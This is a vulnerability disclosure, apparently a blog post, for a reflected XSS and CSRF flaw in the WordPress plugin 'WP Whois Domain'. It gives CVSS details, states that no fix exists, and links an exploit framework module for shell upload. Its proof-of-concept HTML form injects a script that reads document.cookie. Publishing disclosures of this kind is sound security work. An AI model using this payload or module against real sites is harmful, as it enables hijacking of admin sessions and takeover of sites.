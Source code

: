 ```yaml
---
layout: single
title: WP Whois Domain Reflected XSS
date: 2017-01-14
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - wp-whois-domain
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `pages/func-whois.php`, it is possible to execute scripts in the context of an admin user by including a script in the `domain` field, via the query string or a POST field.
---
```

## Homepage
[https://wordpress.org/plugins/wp-whois-domain/](https://wordpress.org/plugins/wp-whois-domain/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `pages/func-whois.php`, it is possible to execute scripts in the context of an admin user by including a script in the `domain` field, via the query string or a POST field.

## CVSS Score
5.5

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:U/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:U/RC:C))

## Versions Affected
All versions

## Solution
There is currently no official fix, the plugin has been removed from the WordPress plugin repository until the vendor provides a solution.

## WordPress Exploit Framework Module
[exploit/xss/reflected/wp\_whois\_domain\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/wp_whois_domain_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="[url of page with the whois form]" method="post">
  <input type="hidden" name="domain" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;">
  <input type="submit" value="Submit">
</form>
```

## WPVDB-ID
[8683](https://wpvulndb.com/vulnerabilities/8683)
